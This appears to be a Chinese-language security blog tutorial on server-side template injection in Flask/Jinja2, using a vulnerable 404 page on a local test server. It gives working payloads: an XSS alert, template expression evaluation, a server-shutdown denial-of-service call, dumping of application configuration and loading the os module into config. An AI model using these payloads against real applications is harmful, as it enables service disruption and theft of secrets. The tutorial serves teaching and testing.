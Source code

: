 ```yaml
---
layout: post
title: "SSTI的服务端模版注入"
subtitle: "Flask && Jinja2中的服务端模版注入"
date: 2019-01-12
author: ppbibo
category: security
finished: true
---
```

[TOC]

## Flask/Jinja2中的服务端模版注入

如果你还没听说过SSTI(服务端模版注入)，或者对其还不够了解，在此之前建议去阅读一下James Kettle写的一篇[文章](http://blog.portswigger.net/2015/08/server-side-template-injection.html)问题出在开发者定义一个404错误页面，该开发者选择使用字符串格式化将URL动态添加到模版字符串中并返回到页面中，用户对模板是可控的。



## 正文

定义一个错误页面

定义了一个模板字符串

使用格式化字符串的方式将URL动态添加到模版字符串中并返回在页面上

用户对模板是可控的

![img](/static/img/a0.png) 

![img](/static/img/a1.png) 

### 触发一个xss

```bash

http://127.0.0.1:5000/<script>alert(/xss/)</script>

```

![img](/static/img/a2.png) 

### Jinjan2 基础语法

![img](/static/img/asd.png) 



### 模版引擎成功解析

```bash

http://127.0.0.1:5000/aaa{{2+2}}

```

![img](/static/img/a3.png) 

### 鸡肋拒绝服务攻击

```Jinjan2
Flask下有一个 request 内置的全局对象

{{ request.environ['werkzeug.server.shutdown']() }}

request.environ  对象是一个与服务器环境相关的对象字典

request.environ	 字典中一个名为shutdown_server的方法名分配的键为   ['werkzeug.server.shutdown']()    关闭服务器。

[http://127.0.0.1:5000/a{](http://127.0.0.1:5000/aalert(1)){ request.environ['werkzeug.server.shutdown']() }}


```

 

### 获取配置项目信息

```
config也是Flask模版中的一个全局对象

它包含了所有应用程序的配置值

{{ config.items() }}		查看配置项目的信息 	

http://127.0.0.1:5000/a{{ config.items() }}

配置项目信息的概念：

[http://www.pythondoc.com/flask/config.html](
```

http://www.pythondoc.com/flask/config.html)

![img](/static/img/a4.png) 

![img](/static/img/a6.png) 

```python
config是一个类字典对象，它的子类包含很多方法：from_envvar, from_object, from_pyfile, root_path

Flask/config.py

def from_object(self, obj):   
```

![img](/static/img/a5.png) 

```text
B. from_object  遍历新加模块中的所有大写的变量的属性并添加属性 

C. 并且这些添加到config对象的属性都会维持他们本来的类型

D. 验证：我们将 {{ config.items() }} 注入到存在SSTI漏洞的应用中，注意当前配置条目

E. 注入  {{ config.from_object('os') }}。这会向config对象添加os库中所有大写变量的属性

F. 再次查看  {{ config.items() }}     ;    os 模块中大写变量的属性成功添加属性
```

 

 参考：

http://www.freebuf.com/articles/web/98619.html
